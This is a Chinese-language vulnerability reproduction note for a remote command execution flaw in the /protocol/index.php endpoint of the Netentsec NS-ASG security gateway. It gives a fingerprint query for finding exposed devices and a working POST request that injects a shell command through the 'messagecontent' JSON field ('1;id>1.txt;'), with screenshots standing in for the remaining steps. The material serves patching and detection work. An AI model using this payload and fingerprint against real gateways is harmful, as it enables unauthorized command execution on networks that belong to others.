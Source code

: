 # 网康 NS-ASG安全网关 index.php 远程命令执行漏洞

## 漏洞描述

网康 NS-ASG安全网关 index.php文件存在远程命令执行漏洞，攻击者通过构造特殊的请求包可以获取服务器权限

## 漏洞影响

```
网康 NS-ASG安全网关
```

## 网络测绘

```
title=="网康 NS-ASG 应用安全网关"
```

## 漏洞复现

登录页面

![image-20230314085700163](images/image-20230314085700163.png)

存在漏洞的文件为 /protocol/index.php ，通过文件读取可以获取到源码

![image-20230314085713446](images/image-20230314085713446.png)

![image-20230314085722233](images/image-20230314085722233.png)

通过构造请求包进行命令拼接漏洞执行命令

```
POST /protocol/index.php
  
jsoncontent={"protocolType":"getsysdatetime","messagecontent":"1;id>1.txt;"}
```

![image-20230314085737042](images/image-20230314085737042.png)

![image-20230314085745134](images/image-20230314085745134.png)
